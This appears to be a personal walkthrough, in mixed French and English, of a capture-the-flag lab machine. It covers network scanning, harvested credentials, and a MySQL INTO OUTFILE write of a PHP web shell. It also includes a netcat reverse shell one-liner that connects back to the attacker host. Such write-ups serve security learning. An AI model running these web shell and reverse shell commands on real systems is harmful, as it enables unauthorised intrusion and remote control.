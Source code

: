 installer kalilinux
sudo apt-get install gobuster

scanner le réseau avec netdiscover
cmd : netdiscover

get the ip of the virtual machine

nmap the ip of the machine (there are on ports) port 80 et 443 open -> web server
cmd : nmap --top-ports 1000 -T4 -sC http://example.com

get a real list for possible url
wget https://localdomain.pw/Content-Bruteforcing-Wordlist/dirsearch-wordlist.txt > list.txt


nikto -h + adress ou dirb sur l'ip de la machine en http et https
cmd : nikto -h + http[s]//.example.com

phpmyadmin + forum + mail

User login try !q\]Ej?*5K5cy*AJ in forum 6
(maybe password misstype?)

user: lmezard mdp : !q\]Ej?*5K5cy*AJ

Essayer d'envoyer un mail à l'admin :
email de notre compte laurie@borntosec.net

Connecting to mail at webmail

Connecting to db via the mail from the admin
root/Fg-'kKXBj87E:aJ$

We need this command
INSERT INTO `mlf2_entries_cache`(`cache_id`, `cache_text`) VALUES (12,LOAD_FILE("/var/www/forum/index.php"))

If we look at the code we have directory, we can try to put in some with that mysql command

select "<?php system($_GET['cmd']); ?>" into outfile "/my_dir/test.php"

the good dir is /var/www/forum/templates_c/test.php

reverse shell on that website without -e
https://www.nicolashug.com/pentest-et-securite/netcat-reverse-shell-e
launch on kali : nc -nvlp 1234
cmd in the php exploit : mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc my_ip 1234 1>/tmp/backpipe

directory /home/LOOKATME
there is something on the password
lmezard:G!@M6f4Eatau{sF"

got a file called fun
need to parse it
I try to send it into a html in the dir i have the right and parse it.. But i was wrong
The file is actually a .tar
So i open a ssh port on the kali machine and connect it via lmezard account to copy it and then untar it (tar -xzf fun)
We have the position of each file with //fileXX
I save it and try to copy it into a file .. doesn't work. I have to get a "\n" at the end of each to escape the //file of the previous file. It works !
I have a message who tell me to ssh a pass.. let's do it

The result is used to login with user laurie in ssh

